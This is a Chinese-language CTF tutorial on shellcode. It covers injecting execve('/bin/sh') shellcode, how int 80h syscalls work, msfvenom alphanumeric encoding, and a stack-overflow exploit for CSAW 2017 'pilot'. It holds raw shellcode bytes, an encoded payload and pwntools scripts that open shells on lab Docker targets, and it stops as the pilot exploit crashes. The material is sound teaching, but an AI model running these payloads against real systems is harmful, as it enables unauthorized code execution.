# shellcode的使用、原理和变形

## shellcode的使用

之前的内容中学会了怎么使用栈溢出劫持程序的执行流程。但演示和作业题程序里都带有很明显的后门。然而并不是每个程序都有后门，即使是有，也没有那么好找。因此，我们就需要使用定制的shellcode来执行自己需要的操作。
开始之前，先将程序`tyro_sehllcode1`部署到32位的容器中，并开启调试。
F5查看main函数伪代码：



与之前程序不同的是，该程序并不存在栈溢出。甚至read函数的读取输入都不在栈上，而是在通过mmap分配出来的内存空间中。
调试过程中，弹出以下窗口:



反调试生效，此时点击OK，在弹出的Exception handling窗口中选择No(discard)丢弃掉SIGALRM信号即可：



通过分析可知，程序的大致流程即是读取用户输入，然后执行我们的输入：




也即是说，我们的输入会被当成汇编代码被执行,显然，输入的内容并不能被正确执行：



但如果程序将我们的输入当成指令执行，那么shellcode就有用武之地了。
首先，了解一下什么是shellcode：shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令(百度百科)
接下来，我们需要找一个能够打开一个shell以便于远程控制只对我们暴露了一个10001端口的Docker环境，而且shellcode的长度不能超过read函数的限制，即0x20=32。
在 strom.org/shellcode/ 可以找到一段符合要求的Shellcode：



21字节的执行sh的shellcode，点开直接提取出shellcode：



使用Pwntools库把shellcode作为输入传递给程序，尝试使用interactive()函数与程序进行交互(受aslr的影响，可能交互失败），发现可以执行shell命令：



## shellcode原理

直接将断点下在`call eax`，然后跟进步入：




单步步入后，可以看到一下汇编指令：



选择Options->General，把`Number of opcode bytes (non-graph)`的值调大:




随后可以看到每条汇编指令都对应长度不一的一串十六进制数（OPcode）
opcode是由最多6个域组成的，和汇编指令存在对应关系的机器码。或者说可以认为汇编指令是opcode的“别名”。易于人类阅读的汇编语言指令，如`xor ecx, ecx`等，实际上就是被汇编器根据opcode与汇编指令的替换规则替换成16进制数串，再与其他数据经过组合处理，最后变成01字符串被CPU识别并执行的。当然，IDA之类的反汇编器也是使用替换规则将16进制串处理成汇编代码的。所以我们可以直接构造合法的16进制串组成的opcode串，即shellcode，使系统得以识别并执行，完成我们想要的功能。

### 系统调用

接着先前的调试，单步执行可以发现EAX、EBX、ECX、EDX先后被清零，随后EAX被赋值为`0Bh`，EXC入栈，字符串"/bin/bash"入栈，并且将其首地址赋给EBX，最后执行`int 80h`,触发中断




执行完`int 80h`IDA弹出一个warning(got SIGTRAP signal)



点击OK，继续执行（F8或F9），选择yes(pass to app)



然后在python中执行interactive()函数进行手动交互，随便输入shell命令，在IDA窗口再次执行（F9），弹出另一个窗口：



同样OK继续执行，选择Yes(pass to app)，发现python窗口中的shell命令被成功执行：



程序执行我们输入的shellcode中并没有system函数，但同样实现了指令`system("/bin/bash")`相同的效果，原因是`int 80h`中断。
`int 80h`就是调用128号中断。在32位的linux系统中，该中断被用于呼叫系统调用程序`system_call()`。出于对硬件和操作系统内核的保护，应用程序的代码一般在保护模式下运行。在这个模式下我们使用的程序和写的代码是没办法访问内核空间的。但是我们显然可以通过调用read(), write()之类的函数从键盘读取输入，把输出保存在硬盘里的文件中。因而read(), write()之类的函数是通过`int 80h`中断调用突破保护模式的管制，成功访问到本该由内核管理的这些硬件。不同的内核态操作通过给寄存器设置不同的值，再调用同样的 指令int 80h，就可以通知内核完成不同的功能。而read(), write(), system()之类的需要内核“帮忙”的函数，就是围绕这条指令加上一些额外参数处理，异常处理等代码封装而成的。32位linux系统的内核一共提供了0~337号共计338种系统调用用以实现不同的功能。
在 `http://syscalls.kernelgrok.com/` 可以看到



对比我们使用的shellcode中的寄存器值，很容易发现shellcode中的EAX = 0Xb = 11，EBX = &(“/bin//sh”), ECX = EDX = 0，即执行了sys_execve("/bin//sh", 0, 0, 0)，通过/bin/sh软链接打开一个shell。所以我们可以在没有system函数的情况下打开shell。需要注意的是，随着平台和架构的不同，呼叫系统调用的指令，调用号和传参方式也不尽相同，例如64位linux系统的汇编指令就是syscall，调用sys_execve需要将EAX设置为0x3B，放置参数的寄存器也和32位不同，具体可以参考 `http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64`

## shellcode变形

在很多情况下，我们多试几个shellcode，总能找到符合能用的。但是在有些情况下，为了成功将shellcode写入被攻击的程序的内存空间中，我们需要对原有的shellcode进行修改变形以避免shellcode中混杂有\x00, \x0A等特殊字符，或是绕过其他限制。有时候甚至需要自己写一段shellcode。

### 使用工具对shellcode进行变形

将`~/BSides San Francisco CTF 2017-b_64_b_tuff/b-64-b-tuff`部署到32位环境中。在IDA中打开程序可以知道大致流程：



与之前一样，程序的读写不在堆栈中，而是在mmap开辟出的内存空间上，所以栈溢出在这里并不奏效。所以这里采用shellcode的方式。不过，虽然程序直接给了我们执行任意代码的机会，但是base64编码的限制要求我们的输入必须只由`0-9`，`a-z`，`A-Z`，`+`，`/`这些字符组成，如果采取我们之前用来打开shell的shellcode
`\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`显然含有大量的非base64编码字符，甚至包含了大量的不可见字符。因此，我们就需要对其进行编码。
在不改变shellcode功能的情况下对其进行编码是一个繁杂的工作，因此我们首先考虑使用工具。事实上，pwntools库中自带了一个encode类用来对shellcode进行一些简单的编码，但是目前encode类的功能较弱，似乎无法避开太多字符，因此我们需要用到另一个工具`msfVENOM`。
首先我们查看一下msfvenom的帮助选项:



显然，我们需要先执行`msfvenom -l encoders`挑选一个编码器:



图中的x86/alpha_mixed可以将shellcode编码成大小写混合的代码，符合我们的条件。所以我们配置命令参数如下：
`python -c 'import sys; sys.stdout.write("\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")' | msfvenom -p - -e x86/alpha_mixed -a linux -f raw -a x86 --platform linux BufferRegister=EAX -o payload`
其中，我们需要自己输入shellcode，但msfvenom只能从stdin中读取，所以使用linux管道操作符“|”，把shellcode作为python程序的输出，从python的stdout传送到msfvenom的stdin。此外配置编码器为x86/alpha_mixed，配置目标平台架构等信息，输出到文件名为payload的文件中。
`-p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads`
`-e, --encoder       <encoder>    The encoder to use`
`-a, --arch          <arch>       The architecture to use`
`-f, --format        <format>     Output format (use --help-formats for a list)`
`-a, --platform      <platform>   The platform of the payload`
`-o, --out           <path>       Save the payload`
最后，由于在b-64-b-tuff中是通过指令call eax调用shellcode的，所以配置`BufferRegister=EAX`。



最后输出的payload内容为:`PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIp1kyigHaX06krqPh6ODoaccXU8ToE2bIbNLIXcHMOpAA`



编写脚本获取shell：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *
  from base64 import *

  context.update(arch = 'i386', os = 'linux', timeout = 1)

  io = remote('172.17.0.2', 10001)

  shellcode = b64decode("PYIIIIIIIIIIIIIIII7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJIp1kyigHaX06krqPh6ODoaccXU8ToE2bIbNLIXcHMOpAA")
  print io.recv()
  io.send(shellcode)  
  print io.recv()
  io.interactive()
```



###　手动拆分shellcode

工具虽然好用，但也不是万能的。有的时候我们可以成功写入shellcode，但是shellcode在执行前甚至执行时却会被破坏。当破坏难以避免时，我们就需要手工拆分shellcode，并且编写代码把两段分开的shellcode再“连”到一起。
将题目`~/CSAW Quals CTF 2017-pilot/pilot`部署到64位环境中。
查看主逻辑，可以发现存在溢出：



开始之前，先用checksec检查程序，发现程序存在着RWX段（同linux的文件属性一样，对于分页管理的现代操作系统的内存页来说，每一页也同样具有可读(R)，可写(W)，可执行(X)三种属性。只有在某个内存页具有可读可执行属性时，上面的数据才能被当做汇编指令执行，否则将会出错）



调试运行后发现这个RWX段其实就是栈，且程序还泄露出了buf所在的栈地址：




所以我们的任务只剩下找到一段合适的shellcode，利用栈溢出劫持RIP到shellcode上(buf的起始地址，因为shellcode是通过输入写入到buf中的，所以劫持RIP到buf的起始地址就可以执行shellcode）执行。所以有以下脚本：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  context.update(arch = 'amd64', os = 'linux', timeout = 1)

  io = remote('172.17.0.3', 10001)

  shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  print io.recvuntil("Location:")
  shellcode_address_at_stack = int(io.recv()[0:14], 16)
  log.info("Leak stack address = %x", shellcode_address_at_stack)

  payload = ""
  payload += shellcode
  payload += "\x90"*(0x28-len(shellcode))
  payload += p64(shellcode_address_at_stack)

  io.send(payload)
  io.interactive()
```

但执行程序时发现程序崩溃了，调试跟到shellcode部分：



